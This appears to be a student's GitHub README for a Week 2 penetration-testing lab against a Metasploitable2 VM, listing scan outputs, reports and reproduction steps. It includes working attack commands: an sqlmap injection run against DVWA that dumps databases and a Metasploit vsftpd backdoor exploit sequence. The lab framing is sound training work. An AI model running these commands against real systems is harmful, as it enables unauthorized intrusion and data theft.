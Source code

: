 # cyart-vapt-team — Week 2

**Author:** Ishan Chowdhury  
**Repository:** cyart-vapt-team  
**Week:** 2 — Vulnerability Assessment & Penetration Testing (VAPT) Lab

---

## Summary
This folder contains all artifacts produced during Week 2 of the VAPT practicals against a lab Metasploitable2 VM (target: `192.168.132.135`). Activities include reconnaissance, vulnerability scanning, exploitation, post-exploitation evidence collection, and reporting. The work is for training purposes and was performed in an isolated lab environment.

## Key Deliverables
- Nmap scans (full port and service/version scans)
- Nikto web scan output
- CSV vulnerability tracker (`scans_192-168-132-135.csv`)
- PoC snippets (sanitized) for validation (`poc_snippet_192-168-132-135.txt`)
- Remediation checklist (Slack-ready Markdown)
- DOCX report summarizing findings (`report_192-168-132-135.docx`)
- Escalation email DOCX (`escalation_email_192-168-132-135.docx`)
- Workflow and README files describing steps to reproduce

## Repository Structure (Week-2)
```
Week-2/
├── CSV Files/
│   └── scans_192-168-132-135.csv
├── DOCX Files/
│   ├── report_192-168-132-135.docx
│   └── escalation_email_192-168-132-135.docx
├── Nmap/
│   ├── nmap_cyart_basic.txt
│   └── nmap_cyart_allport.txt
├── Nikto/
│   └── nikto_cyart.txt
├── PoC/
│   └── poc_snippet_192-168-132-135.txt
├── Remediation/
│   └── remediation_checklist_192-168-132-135.md
├── Notes/
│   └── VAPT_2.txt
├── Screenshots/
└── Workflows/
    └── README.md
```

## How to reproduce (commands)
> Run these from your Kali VM in the lab environment only.

### Nmap
```bash
sudo nmap -sV 192.168.132.135 -oN Week-2/Nmap/nmap_cyart_basic.txt
sudo nmap -p- -T4 192.168.132.135 -oN Week-2/Nmap/nmap_cyart_allport.txt
```

### Nikto
```bash
nikto -h http://192.168.132.135 -output Week-2/Nikto/nikto_cyart.txt
```

### sqlmap (DVWA example)
```bash
sqlmap -u "http://192.168.132.135/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<SESSION>; security=low" --batch --dbs
```

### Metasploit (vsftpd example)
```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.132.135
exploit
```

## Notes on Safety & Ethics
- All testing was performed in an isolated lab environment (Metasploitable2). Do **not** run these attacks against systems you do not own or have explicit permission to test.
- PoC outputs in this repo are sanitized to avoid exposing credentials or sensitive data.

## Submission
This repository (Week-2 folder) contains the required deliverables for submission. Push all changes to the `main` branch and share the GitHub repository link before the deadline.

## Contact
**Ishan Chowdhury** — VAPT Team  
Email: [your.email@example.com] (replace with your contact)

---
*Generated for Week 2 VAPT practicals.*
